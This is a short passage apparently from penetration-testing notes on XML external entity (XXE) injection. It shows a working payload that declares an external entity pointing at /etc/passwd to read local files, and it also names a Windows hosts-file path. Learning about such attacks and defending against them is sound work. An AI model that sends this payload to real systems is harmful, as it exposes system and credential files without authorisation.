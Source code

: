 ![](../.gitbook/assets/image%20%2820%29.png)

### Read file

Lets try to read `/etc/passwd` in different ways. For Windows you could try to read: `C:\windows\system32\drivers\etc\hosts`

In this first case notice that SYSTEM "_**file:///**etc/passwd_" will also work.

```markup
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

